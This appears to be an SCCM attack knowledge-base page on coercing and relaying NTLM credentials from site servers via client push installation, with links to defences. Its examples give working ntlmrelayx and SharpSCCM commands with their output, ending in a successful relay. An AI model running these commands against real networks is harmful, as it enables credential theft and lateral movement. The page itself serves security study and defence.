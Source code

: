 ```yaml
---
title: 'ELEVATE-2'
description: 'NTLM relay via automatic client push installation'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
    - Domain computer account is not in `Protected Users` [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description)
- [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](../../../defense-techniques/DETECT/DETECT-3/detect-3_description)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description)
- [PREVENT-8: Require PKI certificates for client authentication](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description)

## Examples
It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
